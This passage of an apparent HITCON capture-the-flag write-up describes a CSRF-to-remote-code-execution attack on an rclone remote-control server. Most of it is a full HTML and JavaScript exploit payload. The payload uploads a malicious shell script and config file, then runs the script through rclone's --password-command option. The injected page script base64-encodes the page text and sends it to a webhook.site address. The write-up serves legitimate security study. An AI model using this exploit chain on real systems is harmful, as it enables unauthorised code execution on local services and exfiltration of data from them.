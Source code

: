 To bypass the origin I tried using the `--rc-allow-origin` argument and setting it to our host but there were still origin issues with accessing the local address space and I'm unsure if this approach works. My final approach was to instead output our flag to a HTML file and then append some javascript to this HTML file which would simple copy the text on the page and send it to our webhook.

## Final Exploit Payload
```html
<form action="http://rclone:5572/operations/uploadfile?fs=/&remote=home/ctf/" method="POST" target="_BLANK" enctype="multipart/form-data">
  <input type="file" id="fileInput" name="file0" />
  <input type="file" id="fileInput2" name="file1" />
  <input id="btn" type="submit" />
  </form>
  
  <form action='http://rclone:5572/core/command?command=config&arg=["show","--config","/home/ctf/rc.conf","--password-command","bash%20/home/ctf/test.sh"]' method="POST" target="_BLANK">
  <input id="btn2" type="submit" />
  </form>
  
  <script>
  // Prepare test.sh
  var fileContent = new Blob([
    `#!/bin/bash\n/readflag>/tmp/lol.html\necho "<script>window.location.href='https://webhook.site/<ID>/'+btoa(document.body.innerText);<\/script>" >> /tmp/lol.html\nrclone rcd --rc-serve --rc-addr 0.0.0.0:1234 --rc-files /tmp`
  ], { type: "text/plain" });
  
  var file = new File([fileContent], "test.sh", { type: "text/plain" });
  var fileInput = document.getElementById("fileInput");
  var dataTransfer = new DataTransfer();
  dataTransfer.items.add(file);
  fileInput.files = dataTransfer.files;

  // Prepare rc.conf
  var fileContent = new Blob([
    `# Encrypted rclone configuration File\n\nRCLONE_ENCRYPT_V0:\ncM8HO1ZPJlXcA0m5T/SdhLl7zoKlOhcKfc8vYJywENWphwmo2M2u0ZKYOPRxBSLC6Ax5qVc1Gy2SEfNrfbDv`
  ], { type: "text/plain" });
  
  var file = new File([fileContent], "rc.conf", { type: "text/plain" });
  var fileInput = document.getElementById("fileInput2");
  var dataTransfer = new DataTransfer();
  dataTransfer.items.add(file);
  fileInput.files = dataTransfer.files;

document.getElementById('btn').click();

setTimeout(function() {
    document.getElementById('btn2').click();
}, 300);

setTimeout(function() {
  window.location.href = 'http://rclone:1234/lol.html';
}, 500)

</script>
```

`hitcon{easy_peasy_rce_using_csrf_attacking_local_server}`
